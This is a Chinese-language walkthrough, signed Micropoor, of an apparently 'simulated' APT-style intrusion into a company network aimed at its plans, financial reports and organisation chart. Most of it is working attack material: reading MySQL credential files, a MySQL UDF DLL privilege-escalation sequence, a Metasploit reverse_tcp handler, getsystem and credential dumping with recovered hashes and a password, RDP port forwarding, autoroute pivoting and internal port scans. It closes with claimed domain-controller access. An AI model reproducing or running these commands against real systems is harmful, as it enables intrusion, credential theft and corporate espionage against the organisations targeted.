模拟诉求任务攻击
模拟任务：
拿到该公司明年计划，拿到该公司今年报表，并且摸清该公司组织架构。盈利情况。
1、主站 Shell
第一个shell为目标主站shell，为08 R2，提权后遂改变主意。由于是以APT为主，并不打算以主站权限为点渗透，动作太大。不利于长期跟踪。改变为搜集情报为主。配合下一步工作。

主站为2008 R2:

主站端口为:

2、信息搜集
搜集端口为该公司的其他分站提供下一步探测。
- 进程搜集：红色为重点搜集源
> D:\> tasklist
映像名稱 PID 工作階段名稱 工作階段 # RAM使用量
========================= ======== ================ =========== ============
System Idle Process 0 0 24 K
System 4 0 372 K
smss.exe 296 0 1,448 K
csrss.exe 400 0 6,968 K
wininit.exe 452 0 5,636 K
csrss.exe 460 1 12,460 K
winlogon.exe 496 1 6,484 K
services.exe 556 0 10,392 K
lsass.exe 572 0 22,076 K
lsm.exe 584 0 7,104 K
svchost.exe 676 0 10,840 K
svchost.exe 760 0 9,492 K
LogonUI.exe 852 1 19,632 K
svchost.exe 864 0 21,188 K
svchost.exe 904 0 34,904 K
svchost.exe 944 0 13,476 K
svchost.exe 996 0 13,512 K
svchost.exe 168 0 19,480 K
svchost.exe 648 0 12,348 K
spoolsv.exe 1080 0 16,672 K
armsvc.exe 1124 0 4,208 K
apnmcp.exe 1172 0 5,832 K
svchost.exe 1196 0 9,228 K
aspnet_state.exe 1224 0 8,264 K
FileZilla Server.exe 1344 0 7,876 K
svchost.exe 1380 0 10,408 K
inetinfo.exe 1412 0 31,680 K
EngineServer.exe 1448 0 568 K
FrameworkService.exe 1548 0 19,580 K
VsTskMgr.exe 1612 0 1,724 K
MDM.EXE 1680 0 6,652 K
naPrdMgr.exe 1692 0 2,116 K
mfevtps.exe 1720 0 992 K
sqlservr.exe 1760 0 13,284 K
svchost.exe 1844 0 3,452 K
snmp.exe 1868 0 9,264 K
sqlwriter.exe 1904 0 7,440 K
vmtoolsd.exe 1976 0 17,012 K
snmp.exe 1988 0 3,164 K
conhost.exe 1996 0 4,784 K
vmware-converter-a.exe 2068 0 31,460 K
vmware-converter.exe 2180 0 38,176 K
vmware-converter.exe 2228 0 32,828 K
svchost.exe 2288 0 14,152 K
McShield.exe 2320 0 89,332 K
mfeann.exe 2468 0 5,860 K
conhost.exe 2476 0 3,380 K
w3wp.exe 2592 0 160,760 K
w3wp.exe 2812 0 463,872 K
svchost.exe 3452 0 9,656 K
svchost.exe 4104 0 6,384 K
dllhost.exe 4252 0 12,192 K
msdtc.exe 4424 0 8,708 K
svchost.exe 4196 0 34,760 K
w3wp.exe 5604 0 12,632 K
TrustedInstaller.exe 4500 0 11,788 K
cmd.exe 6292 0 3,932 K
conhost.exe 6384 0 4,476 K
tasklist.exe 1496 0 6,064 K
WmiPrvSE.exe 5508 0 7,272 K
账户搜集：（已处理）
重要路径搜集： （无图，路径搜集为未来可能需要dump file做准备）
数据库密码搜集： （无图，密码搜集为未来可能需要碰撞做准备）
杀毒软件搜集： 强力的麦咖啡
管理员习惯搜集： （无图，尽量避免与admin的fvsf）（面对面的vs是不是这么拼写？）
其他搜集： （由于是第一个shell，具体的已经忘记了）
3、第二台服务器权限
第二台服务器权限：window x86 2003
根据上一台的服务器情报搜集很快得到了一台win03


- IP .3

为一台开发机。目标仅支持 asp，无其他脚本支持。但是服务器中安装有 mysql，php 等。并且无 asp to mysql Device Drive IIS 配置中也并不支持 php。msf 反弹后，继续搜集情报。
type C:\MySQL\MySQL Server 5.0\data\mysql\user.MYD
得到 root hash
在实际情况中，交互的shell下运行 mysql -uroot -pxxx 无法继续交互，需要参数 e 解决这个问题。
mysql -uroot -pxxxxxxxx mysql -e "create table a (cmd LONGBLOB);"
mysql -uroot -pxxxxxxxx mysql -e "insert into a (cmd) values (hex(load_file('C:\\xxxx\\xxxx.dll')));"
mysql -uroot -pxxxxxxxx mysql -e "SELECT unhex(cmd) FROM a INTO DUMPFILE
'c:\\windows\\system32\\xxxx.dll';"
mysql -uroot -pxxxxxxxx mysql -e "CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll'"
mysql -uroot -pxxxxxxxx mysql -e "select shell('cmd','C:\\xxxx\\xxx\\xxxxx.exe');"

如果限制上传大小同样可以hex解决上传大小问题。
4、msf 操作实例
以下为部分msf操作实例
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > exploit -l
meterpreter > ps
Process List
============
PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
0 0 [System Process]
4 0 System x86 0 NT AUTHORITY\SYSTEM
304 4 smss.exe x86 0 NT AUTHORITY\SYSTEM\SystemRoot\System32\smss.exe
352 304 csrss.exe x86 0 NT AUTHORITY\SYSTEM \?? \C:\WINDOWS\system32\csrss.exe
376 304 winlogon.exe x86 0 NT AUTHORITY\SYSTEM \?? \C:\WINDOWS\system32\winlogon.exe
424 376 services.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\services.exe
436 376 lsass.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\lsass.exe
620 424 vmacthlp.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\VMware\VMware Tools\vmacthlp.exe
636 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\svchost.exe
708 424 svchost.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\svchost.exe
768 424 svchost.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\svchost.exe
812 424 svchost.exe x86 0 NT AUTHORITY\LOCAL SERVICE C:\WINDOWS\system32\svchost.exe
828 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
1000 424 spoolsv.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\spoolsv.exe
1028 424 msdtc.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\msdtc.exe
1160 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
1228 424 inetinfo.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\inetsrv\inetinfo.exe
1252 424 sqlservr.exe x86 0 NT AUTHORITY\SYSTEM C:\PROGRA\~1\MICROS~1\MSSQL\binn\sqlservr.exe
1304 424 mysqld.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\MySQL\MySQL Server 5.1\bin\mysqld.exe
1348 424 svchost.exe x86 0 NT AUTHORITY\LOCAL SERVICE C:\WINDOWS\system32\svchost.exe
1408 424 vmtoolsd.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
1472 424 mssearch.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\Common Files\System\MSSearch\Bin\mssearch.exe
1720 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
2128 2084 explorer.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\Explorer.EXE
2208 2128 vmtoolsd.exe x86 0 xxxxxxxxxxxx\Administrator C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
2232 2128 ctfmon.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\ctfmon.exe
2244 2128 sqlmangr.exe x86 0 xxxxxxxxxxxx\Administrator C:\Program Files\Microsoft SQL Server\80\Tools\Binn\sqlmangr.exe
2396 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
2440 424 dllhost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\dllhost.exe
3008 2128 cmd.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\cmd.exe
3024 3008 conime.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\conime.exe
3180 636 wmiprvse.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\wbem\wmiprvse.exe
3248 828 wuauclt.exe xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\wuauclt.exe
3380 376 logon.scr x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\System32\logon.scr
meterpreter > migrate 2128
[*] Migrating from 3104 to 2128...
[*] Migration completed successfully. meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM meterpreter > msv
[+] Running as SYSTEM
[*] Retrieving msv credentials msv credentials
===============
AuthID Package Domain User Password
------ ------- ------ ---- --------
0;109205 NTLM xxxxxxxxxxxx Administrator lm{ xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}, ntlm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx }
0;996 Negotiate NT AUTHORITY NETWORK SERVICE lm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx }, ntlm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx }
0;997 Negotiate NT AUTHORITY LOCAL SERVICE n.s. (Credentials KO)
0;54469 NTLM n.s. (Credentials KO)
0;999 NTLM WORKGROUP xxxxxxxxxxxx\$ n.s. (Credentials KO)
meterpreter > kerberos [+] Running as SYSTEM
[*] Retrieving kerberos credentials kerberos credentials
====================
AuthID Package Domain User Password
------ ------- ------ ---- --------
0;996 Negotiate NT AUTHORITY NETWORK SERVICE
0;997 Negotiate NT AUTHORITY LOCAL SERVICE
0;54469 NTLM
0;999 NTLM WORKGROUP xxxxxxxxxxxx$
0;109205 NTLM xxxxxxxxxxxx Administrator 123456
meterpreter > portfwd add -l 3389 -r x.x.x.x -p 3389 #IP已做处理
[*] Local TCP relay created: :3389 <-> x.x.x.x:3389
meterpreter > portfwd
Active Port Forwards
====================
Index Local Remote Direction
----- ----- ------ ---------
1 0.0.0.0:3389 x.x.x.x:3389 Forward
1 total active port forwards.
root@xxxx:/# rdesktop 127.0.0.1:3389 Autoselected keyboard map en-us
Failed to negotiate protocol, retrying with plain RDP.
WARNING: Remote desktop does not support colour depth 24; falling back to 16
meterpreter > run autoroute -h
[*] Usage: run autoroute [-r] -s subnet -n netmask
[*] Examples:
[*] run autoroute -s 10.1.1.0 -n 255.255.255.0 # Add a route to
10.10.10.1/255.255.255.0
[*] run autoroute -s 10.10.10.1 # Netmask defaults to 255.255.255.0
[*] run autoroute -s 10.10.10.1/24 # CIDR notation is also okay
[*] run autoroute -p # Print active routing table
[*] run autoroute -d -s 10.10.10.1 # Deletes the 10.10.10.1/255.255.255.0 route
[*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
[-] Deprecation warning: This script has been replaced by the post/windows/manage/autoroute module
meterpreter > ifconfig
Interface 1
============
Name : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU : 1520
IPv4 Address : 127.0.0.1
Interface 2
============
Name : Broadcom NetXtreme Gigabit Ethernet - McAfee NDIS Intermediate Filter Miniport
Hardware MAC : 00:11:25:40:77:8f
MTU : 1500
IPv4 Address : 10.23.255.3 IPv4 Netmask : 255.255.255.0
meterpreter > run autoroute -s 10.23.255.3 -n 255.255.255.0
[*] Adding a route to 10.23.255.3/255.255.255.0...
[+] Added route to 10.23.255.3/255.255.255.0 via 61.57.243.227
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p
Active Routing Table
====================
Subnet Netmask Gateway
------ ------- -------
10.23.255.3 255.255.255.0 Session 3
meterpreter > ifconfig
Interface 1
============
Name : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU : 1520
IPv4 Address : 127.0.0.1
Interface 2
============
Name : Broadcom NetXtreme Gigabit Ethernet - McAfee NDIS Intermediate Filter Miniport
Hardware MAC : 00:11:25:40:77:8f
MTU : 1500
IPv4 Address : 10.23.255.3 IPv4 Netmask : 255.255.255.0
meterpreter >
Background session 3? [y/N]
msf auxiliary(tcp) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > show options
Module options (auxiliary/scanner/portscan/tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
CONCURRENCY 10 yes The number of concurrent ports to check per host
DELAY 0 yes The delay between connections, per thread, in milliseconds
JITTER 0 yes The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
PORTS 445,80,3389,22 yes Ports to scan (e.g. 22-25,80,110-900)
RHOSTS 10.23.255.1-255 yes The target address range or CIDR identifier
THREADS 10 yes The number of concurrent threads
TIMEOUT 1000 yes The socket connect timeout in milliseconds
最终得到了域控权限，并且得到了跨段的服务器权限。得到了个人机的重要权限，以及公司财报doc。
部分截图如下：由于时间问题，顺序可能打乱了。




跳段， 个人机


放弃权限，所有操作并未更改，下载，删除等一切损害该公司的行为。 
至此由虚拟机跳段到了工作办公机，（典型的A-B-C类跳板）得到了该公司的下年计划，人员组织构架，财务报表，盈利情况，以及内部相关work文档等。
--By Micropoor